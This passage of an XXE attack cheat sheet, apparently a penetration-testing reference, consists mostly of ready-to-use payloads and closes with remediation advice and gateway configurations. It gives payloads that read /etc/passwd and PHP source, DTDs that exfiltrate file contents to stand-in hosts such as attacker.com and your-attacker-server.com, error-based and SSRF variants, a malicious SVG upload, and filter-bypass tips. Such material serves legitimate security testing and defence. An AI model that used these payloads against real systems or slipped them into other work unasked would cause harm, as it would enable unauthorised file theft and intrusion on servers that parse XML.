


### PHP Wrapper inside XXE

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

## Methodologies

### Tools

#### XXE Detection and Exploitation Tools

- **OWASP ZAP**: XML External Entity scanner
- **Burp Suite Pro**: XXE scanner extension
- **XXEinjector**: Automated XXE testing tool
- **XXE-FTP**: Out-of-band XXE exploitation framework
- **dtd.gen**: DTD generator for XXE exfiltration
- **oxml_sec**: Tool for testing XXE in OOXML files (docx, xlsx, pptx)
- **Burp Suite Pro 2025.2+ (“Burp AI”)**: automatically chains scanner-found XXE with out-of-band callbacks for quicker triage.
- **Semgrep rules (java-xxe, python-xxe)**: static analysis that flags un-hardened XML parser usage.

#### Setup Tools for Out-of-Band Testing

- **Interactsh**: Interaction collection server
- **Burp Collaborator**: For out-of-band data detection
- **XSS Hunter**: Can be repurposed for XXE callbacks
- **SimpleHTTPServer**: Quick Python HTTP server setup

### Testing Methodologies



#### Basic Testing Process

1. **Identify XML Processing**: Locate endpoints accepting XML input
2. **Setup Monitoring**: Prepare out-of-band detection for blind XXE
3. **Injection Testing**: Test with basic XXE payloads
4. **Result Analysis**: Check for direct data exposure or callbacks
5. **Vulnerability Confirmation**: Attempt to read a harmless file like `/etc/hostname`

#### Advanced Exploitation Techniques

##### Data Exfiltration (for Blind XXE)



1. Host a malicious DTD file on your server:

   ```xml
   <!ENTITY % file SYSTEM "file:///etc/passwd">
   <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%file;'>">
   %eval;
   %exfil;
   ```

2. Use an XXE payload that references your DTD:
   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE data [
     <!ENTITY % dtd SYSTEM "http://attacker.com/malicious.dtd">
     %dtd;
   ]>
   <data>test</data>
   ```

##### XXE OOB with DTD and PHP filter

Payload:

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://your-attacker-server.com/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

External DTD (`http://your-attacker-server.com/dtd.xml`):

```dtd
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://your-attacker-server.com/log.php?data=%data;'>">
```

##### Error-Based Exfiltration

1. Host a malicious DTD with error-based exfiltration:
   ```xml
   <!ENTITY % file SYSTEM "file:///etc/passwd">
   <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
   %eval;
   %error;
   ```

##### XXE for SSRF

Use XXE to trigger internal requests:

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://internal-service:8080/admin"> ]>
```

##### XXE Inside SOAP

```xml
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```

##### XXE PoC Examples

```xml
<!DOCTYPE xxe_test [ <!ENTITY xxe_test SYSTEM "file:///etc/passwd"> ]><x>&xxe_test;</x>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE xxe_test [ <!ENTITY xxe_test SYSTEM "file:///etc/passwd"> ]><x>&xxe_test;</x>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE xxe_test [<!ELEMENT foo ANY><!ENTITY xxe_test SYSTEM "file:///etc/passwd">]><foo>&xxe_test;</foo>
```

##### XXE via File Upload (SVG Example)

Create an SVG file with the payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<svg width="512px" height="512px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="14" x="0" y="16">&xxe;</text>
</svg>
```

Upload it where SVG is allowed (e.g., profile picture, comment attachment).

#### Comprehensive XXE Testing Checklist

1. **Basic entity testing**:
   - Test file access via `file://` protocol
   - Test network access via `http://` protocol

2. **Content delivery**:
   - Direct XXE with immediate results
   - Out-of-band XXE with remote DTD
   - Error-based XXE for data extraction

3. **Protocol testing**:
   - Test various protocols (file, http, https, ftp, etc.)
   - Attempt restricted protocol access

4. **Format variations**:
   - Test XXE in SVG uploads
   - Test XXE in document formats (DOCX, XLSX, PDF)
   - Test SOAP/XML-RPC interfaces

5. **Bypasses**:
   - Try character encoding tricks
   - Use nested entities
   - Apply URL encoding
   - Test with namespace manipulations

## Remediation Recommendations

- Disable DTD processing completely if possible
- Disable external entity resolution
- Implement proper input validation
- Use safe XML parsers that disable XXE by default
- Apply patch management to XML parsers
- Use newer API formats like JSON where feasible
- **Network egress allow-list**: Restrict outbound traffic from XML-parsing hosts to block blind-XXE callbacks.
- **API Gateway XML Protection**: Implement XML threat protection at the gateway layer

### API Gateway XML Threat Protection

#### AWS API Gateway

```yaml
# API Gateway Request Validator
RequestValidator:
  Type: AWS::ApiGateway::RequestValidator
  Properties:
    ValidateRequestBody: true
    ValidateRequestParameters: true

# Lambda authorizer to inspect XML
def lambda_handler(event, context):
    body = event.get('body', '')

    # Block DTD declarations
    if '<!DOCTYPE' in body or '<!ENTITY' in body:
        return {
            'statusCode': 400,
            'body': 'XML DTD not allowed'
        }

    # Size limit
    if len(body) > 100000:  # 100KB
        return {
            'statusCode': 413,
            'body': 'Request too large'
        }
```

#### Kong Gateway

```yaml
plugins:
  - name: xml-threat-protection
    config:
      source_size_limit: 1000000 # 1MB max
      name_size_limit: 255 # Max element name length
      child_count_limit: 100 # Max child elements
      attribute_count_limit: 50 # Max attributes per element
      entity_expansion_limit: 0 # Disable entity expansion
      external_entity_limit: 0 # Disable external entities
      dtd_processing: false # Disable DTD
```

